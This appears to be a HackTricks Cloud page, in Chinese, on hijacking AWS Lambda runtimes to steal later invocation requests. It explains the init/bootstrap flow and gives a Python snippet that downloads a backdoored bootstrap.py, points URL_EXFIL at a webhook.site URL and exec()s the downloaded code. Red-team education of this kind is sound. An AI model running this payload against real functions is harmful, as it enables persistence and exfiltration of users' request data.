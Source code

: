 # AWS - Steal Lambda Requests

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术： <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## Lambda Flow

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** 是一个在容器外部的进程，**发送** **调用** 到 **init** 进程。
2. init 进程监听端口 **9001**，暴露一些有趣的端点：
* **`/2018-06-01/runtime/invocation/next`** – 获取下一个调用事件
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – 返回调用的处理程序响应
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – 返回执行错误
3. **bootstrap.py** 有一个循环从 init 进程获取调用并调用用户代码来处理它们 (**`/next`**).
4. 最后，**bootstrap.py** 将 **响应** 发送给 init

注意，bootstrap 将用户代码作为模块加载，因此用户代码执行的任何代码实际上都是在此进程中发生的。

## Stealing Lambda Requests

此攻击的目标是使用户代码在处理易受攻击请求的 **`bootstrap.py`** 进程内部执行恶意 **`bootstrap.py`** 进程。这样，**恶意 bootstrap** 进程将开始 **与 init 进程通信** 以处理请求，而 **合法** bootstrap 被 **困住** 运行恶意进程，因此它不会向 init 进程请求请求。

这是一个简单的任务，因为用户的代码是由合法的 **`bootstrap.py`** 进程执行的。因此攻击者可以：

* **向 init 进程发送当前调用的假结果**，使 init 认为 bootstrap 进程正在等待更多调用。
* 必须向 **`/${invoke-id}/response`** 发送请求
* invoke-id 可以通过使用 [**inspect**](https://docs.python.org/3/library/inspect.html) python 模块从合法的 **`bootstrap.py`** 进程的堆栈中获取（如 [这里所提议的](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)）或再次请求 **`/2018-06-01/runtime/invocation/next`**（如 [这里所提议的](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)）。
* 执行恶意 **`boostrap.py`**，它将处理下一个调用
* 为了隐蔽性，可以将 lambda 调用参数发送到攻击者控制的 C2，然后像往常一样处理请求。
* 对于此攻击，只需从系统或 [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py) 获取原始的 **`bootstrap.py`** 代码，添加恶意代码并从当前 lambda 调用中运行它即可。

### Attack Steps

1. 找到一个 **RCE** 漏洞。
2. 生成一个 **恶意** **bootstrap**（例如 [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py)）
3. **执行** 恶意 bootstrap。

您可以轻松地通过运行以下命令来执行这些操作：
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
对于更多信息，请查看 [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## 参考文献

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
学习和实践 AWS 黑客技术：<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
学习和实践 GCP 黑客技术：<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **在 Twitter 上关注** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
